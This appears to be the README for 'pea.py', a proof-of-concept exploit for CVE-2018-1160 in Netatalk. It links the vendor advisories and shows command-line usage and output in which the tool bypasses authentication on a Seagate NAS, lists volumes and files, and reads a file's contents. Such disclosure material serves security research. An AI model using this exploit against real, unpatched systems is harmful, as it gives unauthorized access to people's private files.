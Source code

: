 # pea.py
Pea is a proof of concept exploit that leverages CVE-2018-1160 to control execution flow of Netatalk and bypass authentication. This script was written and tested against Netatalk 3.1.10 on a Seagate NAS.

CVE-2018-1160 was patched in Netatalk 3.1.12.

## Advisory Links
http://netatalk.sourceforge.net/3.1/ReleaseNotes3.1.12.html
https://github.com/Netatalk/Netatalk/commit/750f9b55844b444b8ff1a38206fd2bdbab85c21f
https://www.tenable.com/security/research/tra-2018-48

## Usage example

```sh
albinolobster@ubuntu:~$ python pea.py -i 192.168.88.252 -lv
[+] Attempting connection to 192.168.88.252:548
[+] Connected!
[+] Sending exploit to overwrite preauth_switch data.
[+] Listing volumes
[+] 2 volumes are available:
	-> jbaines
	-> Public
albinolobster@ubuntu:~$ python pea.py -i 192.168.88.252 -lvc -v jbaines
[+] Attempting connection to 192.168.88.252:548
[+] Connected!
[+] Sending exploit to overwrite preauth_switch data.
[+] Listing files in volume jbaines
[+] Volume ID is 2
[+] Files (3):
	[75] super_secret.txt
	[20] important_dir/
	[18] .DS_Store
albinolobster@ubuntu:~$ python pea.py -i 192.168.88.252 --cat -v jbaines -f super_secret.txt
[+] Attempting connection to 192.168.88.252:548
[+] Connected!
[+] Sending exploit to overwrite preauth_switch data.
[+] Cat file super_secret.txt in volume jbaines
[+] Volume ID is 2
[+] Fork ID: 256
[+] File contents:
I'm a little pea
I love the sky and the trees
I'm a teeny tiny little ant
Checking out this and that

And I am nothing
Ah, so you have nothing to hide

albinolobster@ubuntu:~$
```
